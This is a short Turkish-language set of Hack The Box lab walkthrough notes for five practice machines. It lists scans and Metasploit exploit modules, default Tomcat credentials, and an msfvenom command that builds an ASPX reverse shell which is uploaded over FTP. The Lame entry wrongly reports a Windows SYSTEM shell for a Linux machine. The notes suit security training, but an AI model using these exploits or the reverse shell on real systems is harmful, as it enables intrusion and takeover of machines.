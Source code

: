 # Hack The Box Hakkında
Bu bölümde bazı Hack The Box makinelerinin çözümlerine yönelik kısa notlar paylaşılarak yöntemler açıklanmıştır.

## Legacy (windows)

- nmap -A -T4 -p- IP
- msfconsole
    - search smb_version
- Google - > smb Windows XP SP3 exploit > rapid7
- msfconsole
    - use use exploit/windows/smb/ms08_067_netapi
- NT AUTHORITY\SYSTEM (Pwned)


## Lame (linux)
- nmap -A -T4 -p- IP
- Google -> samba 3.0.2 exploit > rapid7
- msfconsole
  - use exploit/multi/samba/usermap_script
- NT AUTHORITY\SYSTEM (Pwned)

## Blue (windows)
- nmap -A -T4 -p- IP
- Google -> smb Windows 7 Professional 7601 exploit -> rapid7
- msfconsole
  -use exploit/windows/smb/ms17_010_eternalblue
- [python exploit github](https://github.com/3ndG4me/AutoBlue-MS17-010)
- NT AUTHORITY\SYSTEM (Pwned)


## Devel (windows)
- nmap -A -T4 -p- IP
- ftp (anonymous) login
- ftp dosyaları == microsoft iis dosyaları
- msfvenom -> aspx reverseshell (msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f aspx > shell.aspx)
- ftp put shell.aspx (burada herhangi bir hata ile karşılaşma durumunda binary komutu kullanılabilir)
- msfconsole multi handler
- tarayıcı -> http://IP/shell.aspx -> meterpreter(IIS APPPOOL\Web)
- background ->  (search suggester)
- [post exploitation enumeration]
- use post/multi/recon/local_exploit_suggester  -> exploit/windows/local/ms10_015_kitrap0d 
- use exploit/windows/local/ms10_015_kitrap0d
- ps
- migrate (notepad PID)
- shell -> read flags (Pwned)


# Jerry (windows)
- nmap -A -T4 -p- IP
- dirsearch - nikto http://IP/8080 (tomcat)
- Google > "tomcat 7.0.88 exploit"
- dirsearch -> http://IP:8080/host-manager/html -> http password ? > tomcat,s3cret ||  auxiliary/scanner/http/tomcat_mgr_login
- msfconsole - exploit/multi/http/tomcat_jsp_upload_bypass
- NT AUTHORITY\SYSTEM (Pwned)


